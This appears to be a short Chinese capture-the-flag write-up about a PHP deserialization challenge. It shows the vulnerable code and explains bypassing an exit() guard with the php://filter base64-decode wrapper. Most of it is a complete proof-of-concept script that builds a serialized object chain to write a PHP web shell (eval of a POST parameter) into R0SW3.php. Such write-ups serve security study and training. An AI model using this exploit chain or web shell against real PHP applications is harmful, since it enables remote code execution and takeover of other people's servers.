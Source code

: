 ```php

$dir = "uploads/";

if (!is_dir($dir))
{
    mkdir($dir);
}
unserialize($_GET["data"]);
```

主要的点是这里

```php
$data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
$result = file_put_contents($filename, $data);
```

这里就是要绕过 死亡exit 了，具体看[P神的解释](https://www.leavesongs.com/PENETRATION/php-filter-magic.html?page=2#reply-list)，利用 `php://filter/write=convert.base64-decode/resource=` 来绕过

其实也没啥好说的，找到攻击点往上推就行了，这里直接放 poc

```php
<?php

class A {
    protected $store;
    protected $key;
    protected $expire;

    public function __construct(){
        $this->key = 'R0SW3.php';
    }

    public function give($store){
        $this->store = $store;
    }
}

class B {
    public $options;
}

$a = new A();
$b = new B();
$b->options['serialize'] = 'strval';
$b->options['prefix'] = 'php://filter/write=convert.base64-decode/resource=';
$b->options['data_compress'] = false;
$b->options['expore'] = 1;
$a->give($b);
$object = array('path' => 'aaa' . base64_encode('<?php eval($_POST["R0SW3"]);?>'));
$path = 'test';
$a->cache = array($path => $object);
$a->complete = 'test';
echo urlencode(serialize($a));
```
